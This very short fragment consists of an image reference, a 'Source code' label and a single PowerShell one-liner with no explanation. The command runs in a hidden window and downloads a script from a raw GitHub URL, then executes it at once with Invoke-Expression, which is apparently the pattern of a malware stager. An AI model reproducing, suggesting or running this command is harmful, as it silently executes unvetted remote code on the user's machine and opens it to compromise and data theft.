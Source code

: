 powershell -w hidden "IEX(IWR https://raw.githubusercontent.com/hiddensquid81/FreeNode234/refs/heads/main/test -usebasicparsing)"

